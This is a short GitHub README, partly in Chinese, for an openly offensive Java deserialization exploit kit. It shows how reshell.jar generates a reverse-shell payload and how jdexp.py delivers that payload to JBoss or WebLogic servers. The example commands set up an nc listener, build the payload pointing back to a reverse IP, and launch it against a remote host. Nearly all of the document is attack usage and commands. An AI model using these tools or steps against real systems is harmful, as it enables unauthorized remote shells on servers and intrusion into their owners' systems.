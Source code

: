 # JavaDeserialization


用[reshell.jar](https://github.com/hackzx/JavaDeserialization/raw/master/reshell.jar "java1.8编译")生成反弹shell的payload，然后[jdexp.py](https://github.com/hackzx/JavaDeserialization/raw/master/jdexp.py)执行。

```
▶ java -jar reshell.jar
usage: reshell.jar host port path

……

positional arguments:
  host        reverse domain/IP
  port        reverse port
  path        generate payload file path

  
  
▶ python jdexp.py -h
usage: jdexp.py [-h] [-jboss] [-weblogic] host port payload

……

positional arguments:
  host        remote domain/IP
  port        remote port
  payload     local payload file

optional arguments:
  -h, --help  show this help message and exit
  -jboss      hack jboss
  -weblogic   hack weblogic
```

……

```
Example:

▶ nc -vvlp 888
▶ java -jar reshell.jar [ReverseIP] 888 /tmp/payload
▶ python jdexp.py -weblogic [RemoteIP] 7001 /tmp/payload
▶ python jdexp.py -jboss [RemoteIP] 80 /tmp/payload
```

 
